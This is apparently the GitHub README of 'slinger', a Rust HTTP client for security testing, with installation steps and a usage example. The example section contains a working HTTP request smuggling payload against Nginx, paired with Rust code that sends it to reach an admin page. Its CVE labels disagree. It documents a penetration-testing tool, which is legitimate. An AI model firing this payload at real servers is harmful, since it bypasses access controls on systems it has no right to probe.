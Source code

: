 <!-- Improved compatibility of back to top link: See: https://github.com/emo-crab/slinger/pull/73 -->
<a name="readme-top"></a>
<!--
*** Thanks for checking out the slinger. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![crates io][crates-shield]][crates-url]




<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/emo-crab/slinger">
    <img src="images/logo.png" alt="Logo" width="80" height="80">
  </a>

<h3 align="center">slinger</h3>

  <p align="center">
    An HTTP Client for Rust designed for hackers.
    <br />
    <a href="https://github.com/emo-crab/slinger"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/emo-crab/slinger">View Demo</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Report Bug</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Request Feature</a>
  </p>
</div>



<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgments">Acknowledgments</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->

## About The Project

[![Product Name Screen Shot][product-screenshot]](https://example.com)

- customizable redirect policy
- http/https and socks5/socks5h proxies
- cookie store
- raw socket request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- GETTING STARTED -->

## Getting Started

This example enables some optional features, so your `Cargo.toml` could look like this:

```toml
[dependencies]
slinger = { version = "0.1.0", features = ["cookies", "charset"] }
```

And then the code:

```rust,no_run
fn main() -> Result<(), Box<dyn std::error::Error>> {
  let resp = slinger::get("https://httpbin.org/get")?;
  println!("{:?}", resp.text());
  Ok(())
}
```

<!-- USAGE EXAMPLES -->

## Example

- Nginx - Http Smuggling [CVE-2019-20372](https://scap.kali-team.cn/cve/CVE-2020-11724)
```rust
use std::io::BufRead;
use slinger::{ClientBuilder, HTTPRecord};

/// CVE-2020-11724
/// when you're using BurpSuite proxy need **disabled** "set **Connection** header on incoming request"
const RAW: &[u8] = b"GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
Content-Length: 42
Transfer-Encoding: chunked

0

GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
X: GET http://192.168.83.1:8080/admin.jsp HTTP/1.0

";

fn main() -> Result<(), Box<dyn std::error::Error>> {
  // let proxy = slinger::Proxy::parse("http://127.0.0.1:8080").unwrap();
  let client = ClientBuilder::new().build().unwrap();
  let mut raw = Vec::new();
  // replace \n to \r\n
  for line in RAW.lines() {
    match line {
      Ok(l) => {
        raw.extend(l.as_bytes());
        raw.extend(b"\r\n")
      }
      Err(err) => {
        println!("{:?}", err);
      }
    }
  }
  let resp = client.raw("http://127.0.0.1:9015/", raw, true).send()?;
  let record = resp.extensions().get::<Vec<HTTPRecord>>().unwrap();
  println!("{:?}", record);
  Ok(())
}

```

_For more examples, please refer to the [example](https://github.com/emo-crab/slinger/tree/main/examples)_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTRIBUTING -->

## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any
contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also
simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- LICENSE -->

## License

Distributed under the `GPL-3.0-only` License. See `LICENSE` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTACT -->

## Contact

Your Name - [@Kali_Team](https://twitter.com/Kali_Team) - root@kali-team.cn

Project Link: [https://github.com/emo-crab/slinger](https://github.com/emo-crab/slinger)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- ACKNOWLEDGMENTS -->

## Acknowledgments

Use this space to list resources you find helpful and would like to give credit to. I've included a few of my favorites
to kick things off!

* [reqwest](https://github.com/seanmonstar/reqwest)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/slinger.svg?style=for-the-badge

[contributors-url]: https://github.com/emo-crab/slinger/graphs/contributors

[forks-shield]: https://img.shields.io/github/forks/emo-crab/slinger.svg?style=for-the-badge

[forks-url]: https://github.com/emo-crab/slinger/network/members

[stars-shield]: https://img.shields.io/github/stars/emo-crab/slinger.svg?style=for-the-badge

[stars-url]: https://github.com/emo-crab/slinger/stargazers

[issues-shield]: https://img.shields.io/github/issues/emo-crab/slinger.svg?style=for-the-badge

[issues-url]: https://github.com/emo-crab/slinger/issues

[license-shield]: https://img.shields.io/github/license/emo-crab/slinger.svg?style=for-the-badge

[license-url]: https://github.com/emo-crab/slinger/blob/master/LICENSE.txt

[product-screenshot]: images/screenshot.png

[crates-shield]: https://img.shields.io/crates/v/slinger.svg?style=for-the-badge

[crates-url]: https://crates.io/crates/slinger
